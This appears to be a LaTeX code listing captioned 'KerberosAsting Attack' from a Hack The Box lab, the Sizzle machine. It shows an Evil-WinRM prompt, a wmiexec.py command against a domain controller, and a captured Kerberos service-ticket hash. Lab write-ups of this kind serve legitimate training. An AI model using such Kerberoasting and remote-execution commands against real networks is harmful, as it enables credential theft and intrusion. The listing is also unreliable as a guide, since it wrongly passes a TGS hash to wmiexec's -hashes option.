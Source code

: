 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Bash, caption=KerberosAsting Attack, linewidth=17.8cm]
*Evil-WinRM* PS C:\windows\temp\temp>


$ wmiexec.py htb.local/mrlky@10.10.10.103 -hashes 
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$C8B04860ABD4D1D0917DC9E6E46B
3C45$ADE793C7898357764ECA1FF5EBBF8145EEE6BF79D760F8914D82CF3872B8D8CC02AB76D9B2E
7350C0CD393D28A703C7986E4EB2706E40DFDDF8F391F64C856D354CCF70671060CE8A78E26C45BE
F5B03FC31B99EDA445455E98C089BB1476065AE3501202EBB8DE0F5D8E9311CA466DB7411F6C0685
A3A430F6198294071EACDC1711E12C8407E606EA43084AB2E208D55E95F3ADCFD4E995EBB9F8B2CE
F12C1A02333BAFD87321231B7C4F86A683AF0C99F23AE1CB83589137C590E63D563912C4D454722A
7F360F118D3980487F8BA03352D5437B57FB46F5DF22E28E9D47B48F9BD5D7BD086425EC4F8453C1
5561CFFEF07B7C7EA2720EC10A9975258393535194AB50B2047D92742D75BCC0DDF93C9B08435C17
8FD75B2FB29592B3301134E7132C36029D3C4ED775AA105C2E700796DF8509195BFF1D91B174CE1E
A40626E6A4DAD6298E235AA99A54AB89404657622A4DFA3B5C6FE5AEBA880D420BE99F449654AD17
9CA1A69E7AE48AAC6805E23B8823DF92DF19E55021ACF4AE07CF7407873CB18E5F5E86DB34D12FE0
6CB2424AD972F744B2990DC9D8AC78152401615ACB7FB3C5EE0BA6C7A74DD002E8F54C57C346D500
3B216190D55D03889B8ADBAEB41E4475136624A350F091BC2193475EB4BA23C43AC74F803830CCFB
129C744CC8B2268730AD006F25820DD9A751C73B63C41C017360AC1FACD9B3789D28A62F47429711
D5DCEC1FFC16435AB0EECA756AFE6592A6F7DBEA0FEF6948A92E22543C0E35683AB467C97A95B8E9
0CAD017710776124F03390F557F95DC74BB18797442648C11D98DAB02798DA0A6453156417B70118
8189E30123D4E0B6F2625D4A6D8EB569F2CBADDC376B419471DC323DCB6ECD4D079E30E9E3C6641E
66244B6776C0C0946849B138AF0B9FBB60A05D267FBFD0BDDE23B3ED09BB0EFF3A2561E3E9A67314
FD7A64F5002897227884E1E1AD83552821981F4A8BC662F19E8EDEAB2392995EF1A7A3C2B396855F
5E29A86007A8A40D3CE5EEF4905D602736F0FD4391E60FF92D415FFAECC6E84B50865C730393E8DF
2D8E603CA896F94EEB3503C3FDC42886FA4FB0B4D755F171AADF37C2F4B8671FCDAE3F496882D9E0
94660185BA73B5713EDE5BC7688BA9C5FA6D359CF849CF07761BABCA70A714C3F622AA7DF860913A
83A1B9B89A14B36BC8A527CAF73413E2C7E306866D17753B7ACE52DC10CAC8D41BA0E54C7AB4FCCD
B77452BCC462F5CB89E0F8DC512FCDA7CBDFA3B51E51A0BFA91F4EF12DF8F4019AF0942E73E25868
7D98156C0D70BAB20761CD96DEA02BBD787BA1F9D9828C743F9586CEF8B9F6C71CE8C26042DA1FD1
E86674AD741AD2AFB\end{lstlisting}
\end{document}
